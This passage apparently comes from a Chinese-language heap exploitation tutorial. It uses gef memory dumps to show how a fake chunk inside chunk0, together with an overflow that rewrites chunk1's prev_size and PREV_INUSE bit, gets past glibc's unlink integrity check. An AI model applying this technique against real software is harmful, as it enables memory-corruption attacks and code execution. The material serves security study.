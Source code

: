 ```
0x602030:	0x0000000000000000	0x0000000000000000
0x602040:	0x0000000000000000	0x0000000000000000
0x602050:	0x0000000000000000	0x0000000000000000
0x602060:	0x0000000000000000	0x0000000000000000
0x602070:	0x0000000000000000	0x0000000000000000
0x602080:	0x0000000000000000	0x0000000000000000
0x602090:	0x0000000000000000	0x0000000000000091  <-- chunk 1
0x6020a0:	0x0000000000000000	0x0000000000000000
0x6020b0:	0x0000000000000000	0x0000000000000000
0x6020c0:	0x0000000000000000	0x0000000000000000
0x6020d0:	0x0000000000000000	0x0000000000000000
0x6020e0:	0x0000000000000000	0x0000000000000000
0x6020f0:	0x0000000000000000	0x0000000000000000
0x602100:	0x0000000000000000	0x0000000000000000
0x602110:	0x0000000000000000	0x0000000000000000
0x602120:	0x0000000000000000	0x0000000000020ee1  <-- top chunk
0x602130:	0x0000000000000000	0x0000000000000000
```

接下来要绕过 `(P->fd->bk != P || P->bk->fd != P) == False` 的检查，这个检查有个缺陷，就是 fd/bk 指针都是通过与 chunk 头部的相对地址来查找的。所以我们可以利用全局指针 `chunk0_ptr` 构造 fake chunk 来绕过它：
```
gef➤  x/40gx 0x602010-0x10
0x602000:	0x0000000000000000	0x0000000000000091  <-- chunk 0
0x602010:	0x0000000000000000	0x0000000000000000  <-- fake chunk P
0x602020:	0x0000000000601058	0x0000000000601060      <-- fd, bk pointer
0x602030:	0x0000000000000000	0x0000000000000000
0x602040:	0x0000000000000000	0x0000000000000000
0x602050:	0x0000000000000000	0x0000000000000000
0x602060:	0x0000000000000000	0x0000000000000000
0x602070:	0x0000000000000000	0x0000000000000000
0x602080:	0x0000000000000000	0x0000000000000000
0x602090:	0x0000000000000080	0x0000000000000090  <-- chunk 1 <-- prev_size
0x6020a0:	0x0000000000000000	0x0000000000000000
0x6020b0:	0x0000000000000000	0x0000000000000000
0x6020c0:	0x0000000000000000	0x0000000000000000
0x6020d0:	0x0000000000000000	0x0000000000000000
0x6020e0:	0x0000000000000000	0x0000000000000000
0x6020f0:	0x0000000000000000	0x0000000000000000
0x602100:	0x0000000000000000	0x0000000000000000
0x602110:	0x0000000000000000	0x0000000000000000
0x602120:	0x0000000000000000	0x0000000000020ee1  <-- top chunk
0x602130:	0x0000000000000000	0x0000000000000000
gef➤  x/5gx 0x601058
0x601058:	0x0000000000000000	0x00007ffff7dd2540  <-- fake chunk
0x601068:	0x0000000000000000	0x0000000000602010      <-- bk pointer
0x601078:	0x0000000000000000
gef➤  x/5gx 0x601060
0x601060:	0x00007ffff7dd2540	0x0000000000000000  <-- fake chunk
0x601070:	0x0000000000602010	0x0000000000000000      <-- fd pointer
0x601080:	0x0000000000000000
```
可以看到，我们在 chunk0 里构造一个 fake chunk，用 P 表示，两个指针 fd 和 bk 可以构成两条链：`P->fd->bk == P`，`P->bk->fd == P`，可以绕过检查。另外利用 chunk0 的溢出漏洞，通过修改 chunk 1 的 `prev_size` 为 fake chunk 的大小，修改 `PREV_INUSE` 标志位为 0，将 fake chunk 伪造成一个 free chunk。
